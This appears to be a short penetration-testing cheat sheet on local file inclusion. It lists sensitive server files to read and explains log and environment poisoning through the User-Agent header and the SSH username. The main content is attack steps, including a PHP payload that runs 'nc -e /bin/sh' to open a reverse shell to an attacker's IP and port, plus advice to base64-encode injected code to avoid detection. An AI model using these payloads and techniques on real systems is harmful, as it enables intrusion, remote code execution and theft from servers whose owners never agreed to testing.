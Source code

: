 * Some sites make it possible to navigate on the servers file system. Check if you can access local files.
  * /etc/passwd
  * ...
* Try to inject code into readable files like:
  * Environment variables - /proc/self/environ
  * /var/log/auth.log
  * /var/log/apache2/access.log
  * ...
* Use Burp to change header info with PHP code thats going to be executed when reading the local file
  * Change User-Agent (which is an environment variable) to:
    ```php 
    <?php passthru("nc -e /bin/sh <IP> <port>"); ?>
  * Forward request
  * Access local file to execute the php code
* To use /var/log/auth.log just try to ssh to that site
  * **ssh _"phpCode"_@_site_**
* When passing code, its good practice to encode it with a base64 function and call a function to decode afterwards
  * Use Burp Decoder to encode it
  * Call php decode function: **base64_decode(_"encodedCode"_)**
  * Access local file to execute the php code
